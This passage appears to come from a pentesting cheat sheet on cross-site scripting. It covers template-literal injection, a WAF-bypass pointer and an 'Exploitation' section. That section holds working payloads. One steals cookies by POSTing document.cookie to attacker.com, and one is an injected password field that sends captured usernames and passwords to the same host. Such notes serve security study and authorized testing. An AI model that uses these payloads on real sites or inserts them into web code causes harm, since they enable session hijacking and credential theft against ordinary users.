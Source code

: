 {% hint style="info" %}
**Note**: you cannot use `&quot;` -> `"` to close onclick attribute. Remember: The browser HTML-decode the value of the onlick attribute but not the entire structure
{% endhint %}

* XSS in JavaScript template literals
  * JavaScript template literals are string literals that allow embedded JavaScript expressions (Template literals are encapsulated in backticks)

```html
<script>
...
var input = `controllable data here`;
...
</script>
${alert(document.domain)}
```

## <mark style="color:yellow;">**Bypass WAF**</mark>

If you receive an error like "tag  is not allowed" or "event is not allowed", use XSS cheat sheet ([https://portswigger.net/web-security/cross-site-scripting/cheat-sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)) to discover a tag and event that work.

## <mark style="color:yellow;">Exploitation</mark>

### &#x20;<mark style="color:yellow;">S</mark><mark style="color:yellow;">**teal cookies**</mark>

```html
<script>
fetch('https://attacker.com', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```

Limitation:

* The victim might not be logged in.
* Many applications hide their cookies from JavaScript using the `HttpOnly` flag.
* Sessions might be locked to additional factors like the user's IP address.
* The session might time out before you're able to hijack it.

### <mark style="color:yellow;">**Capture passwords**</mark>

```html
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://attacker.com',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```
